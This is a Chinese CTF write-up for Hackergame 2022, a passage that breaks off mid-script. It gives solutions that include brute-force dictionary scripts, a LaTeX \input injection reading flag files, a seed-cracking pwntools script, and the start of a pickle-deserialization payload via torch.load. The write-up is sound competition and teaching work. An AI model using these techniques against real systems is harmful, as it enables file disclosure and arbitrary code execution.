# Writeup

> 袁乐天 复旦大学
>
> 如果你看到这行文字，意味着这个writeup已经被我处理过了，是提交给hacker game官方的writeup，已经标注了某些题解是非预期解了。并且我将所有出现了我的token的地方替换为了`<my token>`， `<my session>`，`<my cookie>`等，所以你可能无法直接运行我的脚本，需要添加上自己的token
>
> 以下题目按照我的解题时间顺序排列
>
> Tip：建议直接下载PDF版本阅读，github不支持某一些markdown语法以及图片

[TOC]

## 签到

查看源码，发现

```js
window.location = "?result=" + result;
```

所以访问http://202.38.93.111:12022/?result=2022即可

```
flag{HappyHacking2022-25a430dabb}
```

##  喵咪问答喵

1. 百度即可

   ```
   2017-03
   ```

2. https://ftp.lug.ustc.edu.cn/%E6%B4%BB%E5%8A%A8/2022.9.20_%E8%BD%AF%E4%BB%B6%E8%87%AA%E7%94%B1%E6%97%A5/slides/gnome-wayland-user-perspective.pdf

   ```
   Kdenlive
   ```

3. 百度即可

   ```
   12
   ```

4. github中搜索即可https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43

   ```
   dcd46d897adb70d63e025f175a00a89797d31a43
   ```

5. 爆破域名，实在想不到什么好的办法，md5值的信息我认为相当于没有

   以下是生成爆破词典的代码

   ```java
   import java.io.*;
   import java.nio.file.Files;
   import java.nio.file.Paths;
   
   class Main {
       public static String[] domains = {"com", "net", "edu", "org"};
       public static PrintWriter pw;
       public static final int MAX_LEN = 6;
       public static String ans;
       public static boolean[] vis;
       public static int charUsed = 0;
   
       public static int ord(char x) {
           return x - 'a';
       }
   
       public static void init() {
           vis = new boolean[26];
           ans = "";
           charUsed = 0;
       }
   
       public static void makeVisited(char x) {
           int idx = ord(x);
           if (vis[idx]) return;
           vis[idx] = true;
           charUsed++;
       }
   
       public static void makeNotVisited(char x) {
           int idx = ord(x);
           vis[idx] = false;
           charUsed--;
       }
   
       public static boolean isVisited(char x) {
           int idx = ord(x);
           return vis[idx];
       }
   
       public static void dfs(int len, String domain) {
           if (len == 0) {
               if (charUsed == 6)
                   pw.println(ans + "." + domain);
               return;
           }
           for (char x = 'a'; x <= 'z'; x++) {
               boolean exists = isVisited(x);
               makeVisited(x);
               if (charUsed > 6) {
                   if (!exists)
                       makeNotVisited(x);
                   continue;
               }
               String tmp = ans;
               ans += x;
               dfs(len - 1, domain);
               ans = tmp;
               if (!exists)
                   makeNotVisited(x);
           }
       }
   
       public static void loop(int len, String domain) {
           init();
           for (int i = 0; i < domain.length(); i++) {
               makeVisited(domain.charAt(i));
           }
           dfs(len, domain);
       }
   
       public static void main(String[] args) throws IOException {
           pw = new PrintWriter(Files.newOutputStream(Paths.get("tmp.dict")));
           for (String e : domains) {
   //            for (int i = 1; i <= MAX_LEN; i++) {
               loop(3, e);
   //            }
           }
           pw.flush();
       }
   }
   ```

   使用burpsuite的Intruder爆破

   

   得到

   ```
   sdf.org
   ```

6. 还是爆破，以下是生成爆破词典的代码

   ```java
   import java.io.*;
   import java.nio.file.Files;
   import java.nio.file.Paths;
   
   class Main {
       public static PrintWriter pw;
   
       public static String leftPad(int x) {
           if (x < 10) return "0" + x;
           return String.valueOf(x);
       }
   
       public static void main(String[] args) throws IOException {
           pw = new PrintWriter(Files.newOutputStream(Paths.get("tmp.dict")));
           for (int i = 2000; i <= 2022; i++) {
               for (int j = 1; j <= 12; j++) {
                   for (int k = 1; k <= 31; k++) {
                       pw.println(i + "-" + leftPad(j) + "-" + leftPad(k));
                   }
               }
           }
           pw.flush();
       }
   }
   ```

   使用burpsuite的Intruder爆破

   

   得到

   ```
   2003-03-01
   ```

```
flag1：flag{meowexammeow_772b498346fe0925_9e82aaa9cc}
flag2：flag{meowexamfullymeowed!_6c159adddb7f171b_fffdec7473}
```

## 家目录里的秘密

直接使用windows的搜索功能即可找到第一个flag


然后很容易在`user\.config\rclone\rclone.conf`中找到加密后的第二个flag

```
tqqTq4tmQRDZ0sT_leJr7-WtCiHVXSMrVN49dWELPH1uce-5DPiuDtjBUN3EI38zvewgN5JaZqAirNnLlsQ
```

使用这篇文章的代码对其进行解密即可https://forum.rclone.org/t/how-to-retrieve-a-crypt-password-from-a-config-file/20051

```
flag{finding_everything_through_vscode_config_file_932rjdakd}
flag{get_rclone_password_from_config!_2oi3dz1}
```

## HeiLang

先将源文件转译，转译脚本如下

```java
import java.io.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Scanner;

class Main {
    public static PrintWriter pw;
    public static Scanner scn;

    public static void main(String[] args) throws IOException {
        pw = new PrintWriter(Files.newOutputStream(Paths.get("tmp.py")));
        scn = new Scanner(Files.newInputStream(Paths.get("getflag.hei.py")));
        while (scn.hasNextLine()) {
            String line = scn.nextLine();
            if (line.matches("a\\[.*] = \\d*")) {
                line = line.replaceAll("a\\[", "");
                line = line.replaceAll("] =", " |");
                String[] wds = line.split("\\|");
                String tgt = wds[wds.length - 1];
                for (int i = 0; i < wds.length - 1; i++) {
                    pw.println("a[" + wds[i].trim() + "] = " + tgt.trim());
                }
            } else {
                pw.println(line);
            }
        }
        pw.flush();
    }
}
```

然后直接运行即可

```shell
python getflag.hei.py
```

```
flag{6d9ad6e9a6268d96-dae7359a3887f921}
```

## Xcaptcha

首先burpsuite抓包得到cookie，然后直接使用python脚本答题即可

```python
import re
import requests

from requests.cookies import RequestsCookieJar


def delegateExit(info: str) -> None:
    print(info)
    exit(0)


def tryGet() -> tuple[str, RequestsCookieJar]:
    url = "http://202.38.93.111:10047/xcaptcha"
    headers = {
        "Cookie": "session=<my session>"
    }
    response = requests.get(url, headers=headers)
    content = response.content
    if b"Error" in content:
        delegateExit("[!] Token Error.")
    elif re.search("\\d+\\+\\d+", str(content)) is None:
        delegateExit("[!] Failed To Get.")
    print("[+] Connected.")
    return str(content), response.cookies


def solveQuestions(content: str) -> tuple[int]:
    questions = re.findall("\\d+\\+\\d+", str(content))
    print("[+] Found Questions:")
    print(questions[0])
    print(questions[1])
    print(questions[2])
    return eval(questions[0]), eval(questions[1]), eval(questions[2])


def tryPost(q1: int, q2: int, q3: int, cookies: RequestsCookieJar) -> None:
    url = "http://202.38.93.111:10047/xcaptcha"
    answer = {"captcha1": q1, "captcha2": q2, "captcha3": q3}
    response = requests.post(url, cookies=cookies, data=answer)
    content = str(response.content)
    if "flag" in content:
        print("[+] Success. Flag is " + str(re.findall("flag\\{.*}", content)[0]))


if __name__ == "__main__":
    content, cookies = tryGet()
    q1, q2, q3 = solveQuestions(content)
    tryPost(q1, q2, q3, cookies)
```

```
[+] Connected.
[+] Found Questions:
140632393522811831662390713481098265818+146457206064950917685876190930271594930
272222674865958164671013710276520412585+310865132057337217153889327449487765910
21303904177938098230739662524440294816+74374560207766851953394017571113289108
[+] Success. Flag is flag{head1E55_br0w5er_and_ReQuEsTs_areallyour_FR1ENd_d4e93c6686}
```

## 旅行照片 2.0

exif信息如下

```xml
<x:xmpmeta xmlns:x="adobe:ns:meta/" x:xmptk="Adobe XMP Core 7.2-c000 79.566ebc5, 2022/05/09-07:22:29        ">
   <rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#">
      <rdf:Description rdf:about=""
            xmlns:GCamera="http://ns.google.com/photos/1.0/camera/"
            xmlns:xmp="http://ns.adobe.com/xap/1.0/"
            xmlns:aux="http://ns.adobe.com/exif/1.0/aux/"
            xmlns:photoshop="http://ns.adobe.com/photoshop/1.0/"
            xmlns:xmpMM="http://ns.adobe.com/xap/1.0/mm/"
            xmlns:dc="http://purl.org/dc/elements/1.1/"
            xmlns:tiff="http://ns.adobe.com/tiff/1.0/"
            xmlns:exif="http://ns.adobe.com/exif/1.0/">
         <GCamera:hdrp_makernote>
             ......
         </GCamera:hdrp_makernote>
         <xmp:CreatorTool>HDR+ 1.0.345618096zdy</xmp:CreatorTool>
         <xmp:ModifyDate>2022-05-14T18:23:35.220027+09:00</xmp:ModifyDate>
         <xmp:CreateDate>2022-05-14T18:23:35</xmp:CreateDate>
         <xmp:MetadataDate>2022-05-14T18:23:35.220027+09:00</xmp:MetadataDate>
         <aux:ApproximateFocusDistance>200000/1000</aux:ApproximateFocusDistance>
         <photoshop:DateCreated>2022-05-14T18:23:35.983667904+09:00</photoshop:DateCreated>
         <photoshop:ColorMode>3</photoshop:ColorMode>
         <photoshop:ICCProfile>sRGB IEC61966-2.1</photoshop:ICCProfile>
         <xmpMM:DocumentID>81239F646A15D9EFAEDE31EF5C8ED438</xmpMM:DocumentID>
         <xmpMM:InstanceID>81239F646A15D9EFAEDE31EF5C8ED438</xmpMM:InstanceID>
         <dc:format>image/jpeg</dc:format>
         <tiff:ImageWidth>3840</tiff:ImageWidth>
         <tiff:ImageLength>2160</tiff:ImageLength>
         <tiff:BitsPerSample>
            <rdf:Seq>
               <rdf:li>8</rdf:li>
               <rdf:li>8</rdf:li>
               <rdf:li>8</rdf:li>
            </rdf:Seq>
         </tiff:BitsPerSample>
         <tiff:PhotometricInterpretation>2</tiff:PhotometricInterpretation>
         <tiff:Orientation>1</tiff:Orientation>
         <tiff:SamplesPerPixel>3</tiff:SamplesPerPixel>
         <tiff:YCbCrPositioning>1</tiff:YCbCrPositioning>
         <tiff:XResolution>72/1</tiff:XResolution>
         <tiff:YResolution>72/1</tiff:YResolution>
         <tiff:ResolutionUnit>2</tiff:ResolutionUnit>
         <tiff:Make>Xiaomi</tiff:Make>
         <tiff:Model>sm6115 (juice)</tiff:Model>
         <exif:ExifVersion>0231</exif:ExifVersion>
         <exif:FlashpixVersion>0100</exif:FlashpixVersion>
         <exif:ColorSpace>1</exif:ColorSpace>
         <exif:PixelXDimension>3840</exif:PixelXDimension>
         <exif:PixelYDimension>2160</exif:PixelYDimension>
         <exif:DateTimeOriginal>2022-05-14T18:23:35</exif:DateTimeOriginal>
         <exif:ExposureTime>791/1000000</exif:ExposureTime>
         <exif:FNumber>179/100</exif:FNumber>
         <exif:ExposureProgram>2</exif:ExposureProgram>
         <exif:ISOSpeedRatings>
            <rdf:Seq>
               <rdf:li>84</rdf:li>
            </rdf:Seq>
         </exif:ISOSpeedRatings>
         <exif:ShutterSpeedValue>1030/100</exif:ShutterSpeedValue>
         <exif:ApertureValue>1679919/1000000</exif:ApertureValue>
         <exif:BrightnessValue>724/100</exif:BrightnessValue>
         <exif:ExposureBiasValue>0/6</exif:ExposureBiasValue>
         <exif:MaxApertureValue>168/100</exif:MaxApertureValue>
         <exif:SubjectDistance>200000/1000</exif:SubjectDistance>
         <exif:MeteringMode>2</exif:MeteringMode>
         <exif:Flash rdf:parseType="Resource">
            <exif:Fired>False</exif:Fired>
            <exif:Return>0</exif:Return>
            <exif:Mode>2</exif:Mode>
            <exif:Function>False</exif:Function>
            <exif:RedEyeMode>False</exif:RedEyeMode>
         </exif:Flash>
         <exif:FocalLength>4710/1000</exif:FocalLength>
         <exif:SensingMethod>2</exif:SensingMethod>
         <exif:SceneType>1</exif:SceneType>
         <exif:CustomRendered>1</exif:CustomRendered>
         <exif:ExposureMode>0</exif:ExposureMode>
         <exif:WhiteBalance>0</exif:WhiteBalance>
         <exif:DigitalZoomRatio>0/1</exif:DigitalZoomRatio>
         <exif:FocalLengthIn35mmFilm>41</exif:FocalLengthIn35mmFilm>
         <exif:SceneCaptureType>0</exif:SceneCaptureType>
         <exif:Contrast>0</exif:Contrast>
         <exif:Saturation>0</exif:Saturation>
         <exif:Sharpness>0</exif:Sharpness>
         <exif:SubjectDistanceRange>3</exif:SubjectDistanceRange>
         <exif:SubSecTime>220027</exif:SubSecTime>
         <exif:SubSecTimeOriginal>220027</exif:SubSecTimeOriginal>
         <exif:SubSecTimeDigitized>220027</exif:SubSecTimeDigitized>
      </rdf:Description>
   </rdf:RDF>
</x:xmpmeta>
```

那么答案显而易见



拍照人手机的型号可以通过EXIF信息轻松推断，手机型号为小米，芯片型号是高通SM6115，即骁龙662。百度搜到这款手机为`红米Note 9`，进而继续搜索屏幕分辨率，得到结果为`2340x1080`

首先使用bigjpg对照片去噪，https://bigjpg.com/zh。可以明显地发现照片上有“WELCOME TO ZOZOMA\*\*\*E STADIUM”的文字，文字右边有“顶点”和几个日文，经过谷歌搜索，基本可以确定是日本的`zozo marine stadium`，即日本千叶市棒球场


所以拍照人所在地点为其正东方的`APA HOTEL`，其邮编可以在谷歌地图上直接查询到，为`2610021`

图中飞机明显飞行位置较低，不是刚刚起飞就是快要降落，`EXIF`信息中已经告知了照片拍摄时间为`2022:05:14 18:23:35.220027+09:00`，所以航班的起飞或降落时间可以大致推断

图中飞机是机头向右的，结合拍摄视角，可以推断是往北飞行的

在谷歌地图上搜索，拍照人所在地点附近只有东京国际机场，并且东京国际机场位于拍照人的西南方，所以基本上可以确定飞机是刚刚起飞并不是快要降落，起飞机场为东京国际机场。东京国际机场的IATA号为`HND`

所以我试图查询2022年5月14日（东9区18点）左右东京国际机场起飞向北飞行的飞机。然后发现所有的查询网站都需要注册付费才能查询历史航班，并且就算我想要付费，也必须有一张VISA银行卡，可是我没有，所以只能去爆破。生成爆破词典的脚本如下

```python
import base64

flights = {"7G": (1, 100), "JL": (1, 1000), "NH": (1, 4000)}
airports = ['MSJ', 'HIJ', 'WKJ', 'MBE', 'FUK', 'KMQ', 'KMJ', 'MYJ', 'GAJ', 'PEK', 'SGN', 'AOJ', 'OIT', 'HND', 'CAN',
            'MMB', 'MMY', 'AXJ', 'KOJ', 'UKB', 'MNL', 'HNL', 'SIN', 'IST', 'OKA', 'OBO', 'IWJ', 'LHR', 'KUH', 'SYO',
            'TEB', 'UBJ', 'HSG', 'NGS', 'KKJ', 'LAX', 'TOY', 'TTJ', 'AXT', 'HEL', 'SDM', 'OKJ', 'JFK', 'ATL', 'KMI',
            'TAK', 'HAN', 'SHI', 'SYD', 'CGK', 'TSA', 'FRA', 'SFO', 'HKD', 'PVG', 'KUL', 'IZO', 'GMP', 'ITM', 'MUC',
            'HKG', 'ISG', 'NGO', 'XSP', 'YGJ', 'SEA', 'NTQ', 'ONJ', 'IWK', 'ORD', 'KCZ', 'DEL', 'CTS', 'HAC', 'AKJ',
            'TKS', 'DFW', 'ASJ', 'SHM', 'SHB', 'BKK', 'KIX', 'TPE', 'CDG']

a1 = "2610021"
a2 = "2340x1080"
a3 = "HND"
with open("tmp.dict", "w") as f:
    for a4 in airports:
        for key in flights:
            for number in range(flights[key][0], flights[key][1]):
                a5 = key + str(number)
                answer = base64.b64encode(f"1={a1}&2={a2}&3={a3}&4={a4}&5={a5}".encode("ascii"))
                f.write(str(answer)[2:-1])
                f.write("\n")

```

然后使用burpsuite的intruder爆破即可



爆破得到的结果为

```
MT0yNjEwMDIxJjI9MjM0MHgxMDgwJjM9SE5EJjQ9SElKJjU9Tkg2ODM%3d.txt
```

即

```
1=2610021&2=2340x1080&3=HND&4=HIJ&5=NH683
```

```
flag{1f_y0u_d0NT_w4nt_shOw_theSe_th3n_w1Pe_EXlF}
flag{Buzz_0ver_y0ur_h34d_and_4DSB_m19ht_111egal}
```

## LaTeX机器人（比官方题解优）

输入`\input{/flag1}`即可得到第一个flag

输入以下内容即可得到第二个flag

```latex
\catcode`\#=\active \def#{\#} \catcode`\_=\active \def_{\_} {\input{"/flag2"}} 
```

```
flag{becAr3fu11dUd339a4c28901}
flag{latex_bec_0_m##es_co__#ol_4fa5ada557}
```

## 杯窗鹅影

### flag1

```c
#include <stdio.h>

char buf[1024];
int main(void)
{
    printf("Hello, world!\n");
    FILE *file = fopen("/flag1", "r");
    fgets(buf, 1024, file);
    puts(buf);
    return 0;
}
```

编译上传运行可以直接得到

```
flag{Surprise_you_can_directory_traversal_1n_WINE_2eecae4d80}
```

## 线路板

使用`gerbv`打开`ebaz_sdr-F_Cu.gbr`，然后鼠标按下并拖出一个选择框选中flag开头的那一行，即可直接看到flag



```
flag{8_1ayER_rogeRS_81ind_V1a}
```

## 光与影

将`sceneSDF`中的`t5`删去即可，如下

```js
float tmin = min(min(min(t1, t2), t3), t4);
```



```
flag{SDF-i3-FuN!}
```

## 蒙特卡罗轮盘赌（我觉得这是非预期解但是官方题解告诉我这是预期解.jpg）

`rand`和`srand`是不安全的，所以可以根据已有的随机数暴力破解随机种子，大约运行了2个小时出了结果



python脚本如下

```python
from pwn import *
# context(os="linux", arch="amd64", log_level="debug")
res = ""
while "flag" not in res:
    try:
        print("[+] Start.")
        p = remote('202.38.93.111', 10091)
        p.recvuntil(b'Please input your token: ')
        p.sendline( b'<my token>')
        cmd = "./gen_seed"
        # print(f"[+] Execute `{cmd}`.")
        os.system(cmd)
        p.recvuntil(b'\xbc\x9a')
        p.sendline(b'1')
        p.recvuntil(b'\xbc\x9a')
        r1 = p.recv(7)
        cmd = "./bruteforce_rand " + str(r1)[2:-1]
        # print(f"[+] Execute `{cmd}`.")
        output = ""
        while len(output) == 0:
            p.send(b" ")
            output = os.popen(cmd).read()
        # print(f"[+] Found `{output}`.")
        results = output.split("\n")
        p.sendline(str(results[0]).encode('utf-8'))
        p.recv(1000)
        p.sendline(str(results[1]).encode('utf-8'))
        p.recv(1000)
        p.sendline(str(results[2]).encode('utf-8'))
        p.recv(1000)
        p.sendline(str(results[3]).encode('utf-8'))
        res = str(p.recvall(), encoding="utf-8")
        print("[!] End.")
    except KeyboardInterrupt:
        break
    except:
        p.close()
print(res)
```

其中调用的`gen_seed`脚本如下

```c
#include <time.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main()
{
    int x = (unsigned)time(0) + clock();
    FILE *file = fopen("./s", "w");
    char buf[1024];
    sprintf(buf, "%d", x);
    fputs(buf, file);
    fputs("\n", file);
    fclose(file);
}
```

`bruteforce_rand`脚本如下

```c
#include <time.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

double rand01()
{
    return (double)rand() / RAND_MAX;
}

char guess[20];
int M = 0;
int N = 400000;

void generate()
{
    M = 0;
    for (int j = 0; j < N; j++)
    {
        double x = rand01();
        double y = rand01();
        if (x * x + y * y < 1)
            M++;
    }
    double pi = (double)M / N * 4;
    sprintf(guess, "%1.5f", pi);
}

void answer()
{
    for (int t = 0; t < 4; t++)
    {
        M = 0;
        for (int j = 0; j < N; j++)
        {
            double x = rand01();
            double y = rand01();
            if (x * x + y * y < 1)
                M++;
        }
        double pi = (double)M / N * 4;
        printf("%1.5f\n", pi);
    }
}

int main(int argc, char **argv)
{
    char target[21];
    for (int i = 0; i <= 6; i++)
    {
        target[i] = argv[1][i];
    }
    target[7] = '\0';
    FILE *file = fopen("./s", "r");
    char buf[1024];
    fgets(buf, 1024, file);
    fclose(file);
    int x = atoi(buf);
    for (int i = 0; i < 2000; i++)
    {
        srand(x);
        generate();
        if (strcmp(guess, target) == 0)
        {
            answer();
            return 0;
        }
        x--;
    }
    file = fopen("./s", "w");
    sprintf(buf, "%d", x);
    fputs(buf, file);
    fputs("\n", file);
    fclose(file);
    return 0;
}
```

```
flag{raNd0m_nUmb34_a1wayS_m4tters_a856ec150c}
```

## 二次元神经网络

`torch.load`调用的pickle的库，有反序列化漏洞，可以执行任意代码。既然可以执行任意代码了，直接输出十张原图就行了。脚本如下

```python
import io
import torch
import json
import matplotlib
import matplotlib.image
import base64

class Payload:
    def do_payload(self):
        pixels = torch.load("/dataset/pixels_10.pt")
        gen_imgs = []
        for i in range(pixels.shape[0]):
            out_io = io.BytesIO()
            matplotlib.image.imsave(out_io, pixels[i].numpy(), format="png")
            png_b64 = base64.b64encode(out_io.getvalue()).decode()
